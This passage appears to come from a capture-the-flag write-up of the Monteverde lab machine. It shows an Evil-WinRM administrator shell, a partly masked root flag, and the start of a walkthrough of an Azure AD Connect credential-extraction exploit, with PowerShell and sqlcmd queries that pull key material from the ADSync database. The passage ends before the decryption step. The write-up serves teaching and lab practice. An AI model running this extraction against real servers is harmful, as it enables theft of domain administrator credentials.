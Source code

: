     *Evil-WinRM* PS C:\Users\Administrator\Documents>
    

And I can grab the flag:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    12909612************************
    

## Beyond Root

### Successful Exploit in Detail

#### Steps

The exploit breaks down into three parts:

  * Get the information from the DB to retrieve the encryption keys from the KeyManager.
  * Get the config and encrypted password from the DB.
  * Fetch the keys and decrypt the password.

#### Fetch Key Information

This code is just doing a simple query to the database and storing the results
in appropriate variables:

    
    
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()
    

I can do that same query using `sqlcmd` on Monteverde to see the results:

    
    
    *Evil-WinRM* PS C:\> sqlcmd -d ADSync -Q 'SELECT keyset_id, instance_id, entropy FROM mms_server_configuration'
    keyset_id   instance_id                          entropy
    ----------- ------------------------------------ ------------------------------------
              1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD
    
    (1 rows affected)
    

#### Fetch Config Information

The next section of code a second query to get the config information:
